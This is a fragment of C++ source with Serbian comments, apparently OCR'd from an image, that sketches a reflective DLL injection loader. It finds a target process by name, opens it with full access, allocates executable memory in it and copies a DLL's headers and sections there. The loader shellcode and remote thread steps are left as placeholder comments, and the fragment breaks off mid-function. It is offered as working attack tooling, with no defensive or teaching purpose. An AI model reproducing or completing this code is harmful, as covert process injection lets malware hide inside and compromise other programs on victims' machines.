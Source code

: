 namespace ReflectiveLoader {

    // ... Ovde ide kompleksan kod za reflective injection ...
    // Zbog dužine i kompleksnosti, ovo je pseudokod glavnih koraka.
    // Prava implementacija zahteva nekoliko stotina linija asemblera i C++ koda.
    // Može se naći na GitHub-u pod "Reflective DLL Injection".

    bool Inject(HANDLE hProcess, LPVOID pDllBuffer) {
        // 1. Provera da li je bafer validan PE (Portable Executable) fajl
        PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pDllBuffer;
        if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) return false;

        PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pDllBuffer + pDosHeader->e_lfanew);
        if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE) return false;

        // 2. Alociranje memorije u ciljnom procesu za naš DLL
        LPVOID pRemoteDllBase = VirtualAllocEx(hProcess, NULL, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        if (!pRemoteDllBase) return false;

        // 3. Kopiranje sekcija (headers, .text, .data, etc.) u alociranu memoriju
        WriteProcessMemory(hProcess, pRemoteDllBase, pDllBuffer, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL);
        
        PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pNtHeaders);
        for (UINT i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++, pSectionHeader++) {
            WriteProcessMemory(hProcess, (LPVOID)((LPBYTE)pRemoteDllBase + pSectionHeader->VirtualAddress), (LPVOID)((LPBYTE)pDllBuffer + pSectionHeader->PointerToRawData), pSectionHeader->SizeOfRawData, NULL);
        }

        // 4. Alociranje memorije za "loader" shellcode i njegovo kopiranje
        // ... (loader kod koji rešava import-e i relokacije) ...

        // 5. Pokretanje "loader" shellcode-a preko CreateRemoteThread
        // ... (CreateRemoteThread koji pokazuje na loader shellcode) ...

        return true; // Placeholder, prava implementacija je mnogo složenija
    }

    bool FindAndInject(const char* processName, LPVOID pDllBuffer) {
        HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (hSnap == INVALID_HANDLE_VALUE) return false;

        PROCESSENTRY32 pe32;
        pe32.dwSize = sizeof(PROCESSENTRY32);

        if (Process32First(hSnap, &pe32)) {
            do {
                if (_stricmp(pe32.szExeFile, processName) == 0) {
                    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
                    if (hProcess) {
                        bool result = Inject(hProcess, pDllBuffer);
                        CloseHandle(hProcess);
                        CloseHandle(hSnap);
                        return result;
                    }
                }
            } while (Process32Next(hSnap, &pe32));
        }
